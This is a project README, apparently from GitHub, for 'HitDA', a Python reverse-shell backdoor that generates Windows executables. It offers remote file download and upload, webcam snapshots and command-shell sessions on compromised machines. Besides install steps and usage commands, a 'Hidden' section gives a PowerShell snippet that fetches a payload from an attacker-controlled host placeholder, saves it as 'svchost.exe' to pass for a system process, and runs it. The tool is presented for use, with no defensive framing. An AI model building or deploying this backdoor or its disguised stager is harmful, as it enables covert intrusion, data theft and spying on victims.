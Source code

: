 # HitDA
This is a backdoor application based on TCP Reverse Shell write in Python3.
(Not shellcode).In addition to the basic reverse shell function
, you can also use some functions, Like **File Download/Upload**, **Webcam snapshot**.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can 
receive session, and type `session num` to open. Or check sessions 
by `sessions`, type `help` to get help. when opening session, 
use some command like

Download the specified remote file and save as local filename 
```
download <remote filename> <local_filename>
```
Upload file
```
upload <local_filename> <remote filename>
```
Webcam snapshot and save as filename
```
webcam_snap filename
```
There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```
### Hidden
You can use the **powershell** 
script to automate download the script and hide in some directorys, then execute
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use **battoexe** to generate a small exe file.

## TroubleShoot
If you got the below error message when generating
```
Failed to establish a new connection: [Errno 11002] getaddrinfo failed')': /simple/opencv-python/
```
Adding Google DNS to your local config
```
vim /etc/resolv.conf
```
Add
```
# Google IPv4 nameservers
nameserver 8.8.8.8
nameserver 8.8.4.4
```
